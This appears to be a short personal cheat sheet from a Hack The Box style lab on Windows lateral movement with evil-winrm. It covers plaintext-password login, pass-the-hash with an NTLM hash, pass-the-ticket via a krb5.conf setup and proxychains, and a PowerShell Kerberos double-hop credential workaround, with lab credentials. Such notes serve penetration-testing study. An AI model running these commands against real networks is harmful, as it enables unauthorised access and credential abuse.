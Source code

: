 ```yaml
---
tags:
  - PtH
  - PtT
---
```

```shell-session
$ evil-winrm -i 10.129.201.248 -u 'Cry0l1t3' -p 'P455w0rD!'
```
# Pass the Hash
```shell-session
$ evil-winrm -i <IP> -u <USER>[@DOMAIN] -H 30B3783CE2ABF1AF70F77D0660CF3453
```

# Pass the Ticket
Prerequisite: `krb5-user`
Once installed, change `/etc/krb5.conf` to include the following:
```shell-session
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB
<SNIP>
[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
<SNIP>
```

```shell-session
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```
# Kerberos "Double-Hop"
[[klist]] can confirm if any forwardable credentials are stored.
```powershell
PS > $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
PS > $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
PS > get-domainuser -spn -credential $Cred | select samaccountname
```